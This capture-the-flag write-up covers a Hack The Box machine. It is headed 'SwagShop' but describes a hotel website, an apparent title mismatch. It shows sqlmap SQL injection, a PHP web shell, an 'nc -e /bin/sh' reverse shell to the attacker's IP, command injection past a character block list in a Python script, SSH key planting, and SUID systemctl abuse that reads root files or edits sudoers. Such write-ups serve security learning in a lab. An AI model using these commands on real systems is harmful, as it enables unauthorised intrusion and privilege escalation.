# SwagShop

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/194"></a>
  <br>
</h1>


<h4 align="center"> Author:  manulqwerty & Ghostpp7 </h4>

***

__Machine IP__: 10.10.10.143

__DATE__ : 16/07/2019

__START TIME__: 7:41 PM

***

## NMAP



Since there aren't many port open, we'll just start with HTTP

***

## HTTP


It's a beautifully designed website.

I started with running `dirsearch` on the website and found only few pages



I think I was not supposed to find that `reverse shell` :)

I started looking into those page but there wasnt anything interesting. The `/phpmyadmin` leads to a page asking for credentials.

So I started looking around on the website. On `rooms-suites.php` I noticed something, the first and the last room had the same image.


I first tried to see if I can find anything in the image but nothing.

Then I noticed that URL for all the rooms were in the following form:

`room.php?cod=1`

so I decided to check that parameter for LFI. Tried using `../../etc/passwd%00`etc but nothing worked. Then I tested it for `SQLi` using `Sqlmap` on it.





Since this is `vulnerable` to SQLi I decided to use sqlmap to list all the DBs

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent --dbs
```



There are 9 entries available to use, we can list tables of those DBs now.

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D aaalc --tables
```



now let's see the content of that table

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D aaalc --tables -T "orlol" -C name,password --dump
```



It's empty but using the same commands we can now checkout content of all the DBs/tables.

I found something in the `hotel` DB, it had a table named `room` and when I tried to list content of that table I got:


So in `mysql` DB I found a table named `user` and in that I got a hash.

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D mysql --tables -T "user" -C User,Password --dump --thread 5
```


using [crackstation](https://crackstation.net/) I was able to crack that hash.



`DBadmin: imissyou`

Using those credential I got in.

***

## User pwn

After some googling I found a way to get a reverse shell. In the `wcdws` table I added a sql query

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```



and then visted `/backdoor.php?cmd=ls` to get RCE.



Now we can easily get reverse shell by visiting the following URL

```bash
backdoor.php?cmd=nc -e /bin/sh 10.10.15.107 4444
```
and  I got the shell on my listener which I started by running `nc -nlvp 4444`.




I tried to go into `user` directory to get the `user` flag but got permission denied.


So I started looking around in the `/var/www` folder and found a `simpler.py` file in `/var/www/html/Admin-Utilities`



```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()

    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1

    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)

def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req

def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The only thing that matter in this `exec_ping` function.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

we can see that whatever we enter it passed to `os.system` but we have restriction so we cannot use things like `;` or `-`. The good thing is that we don't need those character, we can escape this with `eval` or `$()`. The permission of `simpler.py` is for `pepper` so we can run this file as pepper and then spwan a shell which will give us a horizontal privelege escalation from `www-data` to `pepper`.



The problem with this was I couldn't see output of any command. So I did `cat user.txt` it will not give any error but it will not print the hash either. So I decided to put my public key in `/home/pepper/.ssh/authorized_keys` and then SSH into peppers account.

But Since the `/home/pepper/.ssh/authorized_keys` doesn't exist we'll have to make this.

* `mkdir /home/pepper/.ssh`
* `touch authorized_keys`
* `echo pubkey > /home/pepper/.ssh/authorized_keys`

With this I was able to login into `peppers` ssh account without any password and then got the user hash.



***

## Pwn root

Now we can download our enumeration script to see if we can find anything useful.

After running the enum file I found a SUID



The first thing I did was to search `systemctl` on `gtfobin` and I found something [gtfobin/systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Using the said method I was able to get the root flag.

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
Just run this and we'll have the root hash in a file named `output` in `tmp` directory.



***

__Note__: I didn't wanted to spoil it for others so I removed that file in the similar way

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

***

Also you can do something like

```bash
TF=$(mktemp).service

echo '[Unit]
Description=evil service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo pepper ALL=\(ALL\) NOPASSWD: ALL>> /etc/sudoers"
[Install]
WantedBy=multi-user.target' > $TF

systemctl link $TF
systemctl enable --now $TF
```

This would add `pepper` to the list of `sudoers` without any password.

***
***

I really enjoyed doing this machine. Everything about this was really nice and I learned something new related to `systemctl` so that's something.

__End Date__: `Wed Jul 17 12:55:44 IST 2019`

***

Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
